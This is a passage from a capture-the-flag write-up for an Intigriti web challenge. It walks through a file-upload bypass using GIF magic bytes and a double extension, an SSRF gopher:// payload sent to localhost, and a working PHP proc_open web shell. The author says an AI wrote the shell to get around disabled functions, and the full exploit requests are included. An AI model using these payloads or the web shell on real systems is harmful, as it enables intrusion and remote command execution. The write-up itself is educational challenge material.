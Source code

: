 But a new error appears when uploading the file: Invalid file format.

By my experience as pentester, I knew this was due to magic bytes, so I started looking for a magic byte that would work; if a bit more background is needed on what they are, take a look at this page.

[Magic Bytes](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html#magic-header-bytes)

For me, the easiest magic byte to test is the GIF one; it doesn’t have many odd characters, and if it works, building a payload and calculating the Content-Length is simpler, so I went straight for it.

![16]

The same process with CyberChef

[Encoded Payload](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=UE9TVCAvdXBsb2FkX3Nob3BwaXhfaW1hZ2VzLnBocCBIVFRQLzEuMQ0KSG9zdDogY2hhbGxlbmdlLTEwMjUuaW50aWdyaXRpLmlvDQpDb250ZW50LVR5cGU6IG11bHRpcGFydC9mb3JtLWRhdGE7IGJvdW5kYXJ5PS0tLS1ib3VuZGFyeQ0KQ29udGVudC1MZW5ndGg6IDE1Nw0KDQotLS0tLS1ib3VuZGFyeQ0KQ29udGVudC1EaXNwb3NpdGlvbjogZm9ybS1kYXRhOyBuYW1lPSJpbWFnZSI7IGZpbGVuYW1lPSJzMXguanBnLnBocCINCkNvbnRlbnQtVHlwZTogaW1hZ2UvanBlZw0KDQpHSUY4OWE8P3BocCBwaHBpbmZvKCk7ID8%2BDQotLS0tLS1ib3VuZGFyeS0t&ieol=CRLF&oeol=CRLF)

Final payload:

```http
gopher://127.1:80/_POST%20%2Fupload%5Fshoppix%5Fimages%2Ephp%20HTTP%2F1%2E1%0D%0AHost%3A%20challenge%2D1025%2Eintigriti%2Eio%0D%0AContent%2DType%3A%20multipart%2Fform%2Ddata%3B%20boundary%3D%2D%2D%2D%2Dboundary%0D%0AContent%2DLength%3A%20157%0D%0A%0D%0A%2D%2D%2D%2D%2D%2Dboundary%0D%0AContent%2DDisposition%3A%20form%2Ddata%3B%20name%3D%22image%22%3B%20filename%3D%22s1x%2Ejpg%2Ephp%22%0D%0AContent%2DType%3A%20image%2Fjpeg%0D%0A%0D%0AGIF89a%3C%3Fphp%20phpinfo%28%29%3B%20%3F%3E%0D%0A%2D%2D%2D%2D%2D%2Dboundary%2D%2D%0D%0A
```

If it worked, it will take a moment to load and a success message will appear on the screen. From the uploads directory (this is where we saw it would be stored), the file can be accessed.

![17]

I’ll save you some time: after this, I tried to upload a web shell, but it kept failing until I checked PHP’s disable_functions and saw that several functions were disabled.

![18]

How to make a web shell with this information? Easy: leverage AI to your advantage and ask it to build a web shell without using any of those functions, and this is what it produced.

```http
<?php if(function_exists('proc_open') && isset($_GET['c'])){   $d=[0=>["pipe","r"],1=>["pipe","w"],2=>["pipe","w"]];   $p=proc_open($_GET['c'],$d,$pipes);   if(is_resource($p)){fclose($pipes[0]); echo stream_get_contents($pipes[1]); fclose($pipes[1]); fclose($pipes[2]); proc_close($p);} } ?>
```

And this is the final request.

```http
POST /upload_shoppix_images.php HTTP/1.1
Host: challenge-1025.intigriti.io
Content-Type: multipart/form-data; boundary=----boundary
Content-Length: 430

------boundary
Content-Disposition: form-data; name="image"; filename="s1x.jpg.php"
Content-Type: image/jpeg

GIF89a<?php if(function_exists('proc_open') && isset($_GET['c'])){   $d=[0=>["pipe","r"],1=>["pipe","w"],2=>["pipe","w"]];   $p=proc_open($_GET['c'],$d,$pipes);   if(is_resource($p)){fclose($pipes[0]); echo stream_get_contents($pipes[1]); fclose($pipes[1]); fclose($pipes[2]); proc_close($p);} } ?>
------boundary--
```